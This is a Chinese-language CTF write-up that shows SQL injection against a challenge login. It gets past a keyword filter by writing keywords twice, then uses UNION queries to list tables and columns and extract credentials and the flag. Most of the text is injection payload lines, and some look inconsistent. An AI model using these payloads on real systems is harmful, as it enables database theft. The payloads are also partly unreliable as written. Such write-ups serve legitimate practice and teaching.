






# 考察知识点：

# 1.sql注入

# 2.双写绕过


# 1.sql过滤判断

根据报错吧信息，判断过滤了select,但是这个过滤可以使用双写绕过






or ,and等都显示输入username，可以判断or,and,union等都被过滤，但是使用双写绕过既可绕过过滤


# 2.采用联结注入

order by 确定行数。


# 3.union select联结查询，

```javascript
password=1'ununionion%20selselectect%20null,null,database()--+
```

确定数据库未geek




# 4.爆表

```javascript
password=1'ununionion%20selselectect%20null,null,select%20group_concat(table_name)%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema='geek'--+
```




确定geek数据库中有两个表，b4bsql,geekuser


# 5.爆字段

```javascript
password=1'ununionion%20selselectect%20null,null,select%20group_concat(column_name)%20frfromom%20infoorrmation_schema.columns%20whwhereere%20table_name='geekuser'--+ 
```

确定geekuser表中有username和password字段。




# 6.获取字段内容

```javascript
password=1'ununionion%20selselectect%20null,null,select%20group_concat(username,password)%20frfromom%20b4bsql--+ 
```

在b4bsql的password字段中获取到，flag。

注意：此处的password中的or要双写。




